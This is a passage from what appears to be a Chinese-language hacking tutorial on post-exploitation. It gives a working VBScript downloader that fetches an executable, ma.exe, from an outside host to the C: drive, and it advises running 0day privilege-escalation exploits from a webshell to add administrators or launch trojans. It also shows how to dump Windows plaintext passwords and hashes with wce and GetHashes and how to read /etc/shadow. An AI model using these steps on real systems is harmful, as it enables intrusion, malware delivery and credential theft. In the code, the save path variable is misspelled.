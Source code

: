    - 固定下载程序位置和名称并下载，代码如下：

     ```
     url = "http://www.antian365.com/ma.exe"
     saves = "c:\ma.exe"
     Set xmlhttp = CreateObject("Microsoft.XMLHTTP")
     Set stream = CreateObject("ADODB.Stream")
     Call xmlhttp.open("GET", url, False)
     Call xmlhttp.send()
     stream.mode =3
     stream.type = 1
     Call stream.open()
     Call stream.write(xmlhttp.responsebody)
     Call stream.savetofile(saveas, 2)
     Set xmlhttp = Nothing
     Set stream = Nothing

     ```

     将以上代码保存为down.vbs文件，执行`cscript down.vbs` 命令即可下载程序ma.exe到C盘中。

   - 另外一种下载文件的方法，代码如下。

   - 使用bitsadmin命令下载文件。

   - 在bat模式下执行vbs下载，代码如下。

   - 在FTP命令模式下下载。down.bat内容如下。

2. 执行0dya进行提权尝试

   在WebShell状态下执行提权0day。通常通过0day添加普通用户为管理员，或者通过0day执行其他可执行程序（例如木马、系统密码获取工具等）。

3. 获取系统权限及操作系统的密码

   使用密码获取软件获取操作系统的密码。例如，使用`wce -w` 命令获取Windows系统当前登录的铭文密码，使用`cat /etc/shadow` 命令获取Linux操作系统Shadow文件的内容。

## Windows账号和密码的获取与破解

Windows账号和密码的获取主要针对了系统权限的情况，尤其是3389登陆的情况（远程桌面登陆）。

### 使用GetHashes获取Windows系统密码的Hash值

命令格式

`GetHashes <sam registry file> [System key file]` 或 `GetHashes $Local`

使用`GetHashes $Local`获取系统密码Hash值，仅在system权限下成功。

使用时，将其复制到欲获取密码Hash值得系统盘中，然后执行`getpw $local`（可将GetHashes改名）。

> 注意：
>
> 1. 在使用GetHashes获取密码时，必须有system权限，也就是要在反弹Shell和Telnet下获取。
> 2. GetHashes由于威力巨大，绝大多数杀毒软件已将GetHashes加入病毒库。

### 使用gsecdump获取Windows系统密码
